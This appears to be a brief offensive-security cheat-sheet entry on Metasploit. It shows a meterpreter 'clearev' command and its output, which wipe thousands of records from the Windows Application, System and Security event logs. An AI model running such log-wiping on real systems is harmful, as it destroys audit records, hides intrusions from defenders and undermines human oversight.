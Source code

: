 # Metasploit

## 01 - Event Logs

```
meterpreter > clearev
[*] Wiping 2538 records from Application...
[*] Wiping 1587 records from System...
[*] Wiping 15491 records from Security...
```